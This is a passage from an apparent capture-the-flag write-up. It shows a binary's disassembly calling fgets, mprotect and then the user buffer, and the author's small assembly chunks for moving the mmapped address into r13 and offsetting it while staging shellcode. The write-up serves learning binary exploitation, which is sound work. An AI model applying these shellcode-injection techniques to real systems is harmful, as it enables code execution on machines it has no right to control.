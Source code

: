 ### Writing to the new rwx memory
The way the binary calls the shellcode is as below.

```assembly
00400753 48 89 c7        MOV        RDI,RAX
00400756 e8 55 fe        CALL       fgets    
         ff ff
0040075b 48 8b 45 f8     MOV        RAX,qword ptr [RBP + local_10]
0040075f ba 05 00        MOV        EDX,0x5
         00 00
00400764 be 0b 00        MOV        ESI,0xb
         00 00
00400769 48 89 c7        MOV        RDI,RAX
0040076c e8 5f fe        CALL       mprotect  
         ff ff
00400771 48 8b 55 f8     MOV        RDX,qword ptr [RBP + local_10]
00400775 b8 00 00        MOV        EAX,0x0
         00 00
0040077a ff d2           CALL       RDX
```

This means the address of the mmapped memory is in rdx. According to gdb, this value is close to the area we changed to <span style="color:#ff0000">rwx</span> just before. 

![Error](/assets/images/CJFinal-8.png)

So I moved this value into r13, and added r13 with the appropriate value.

```asm
6
   0:   41 54                   push   r12
   2:   49 89 d5                mov    r13, rdx
   5:   c3                      ret
10
   0:   41 54                   push   r12
   2:   49 81 c5 00 00 20 00    add    r13, 0x200000
   9:   c3                      ret
```

Now I just need to setup a read syscall with 10 bytes. Again, I used the stack to my advantage.
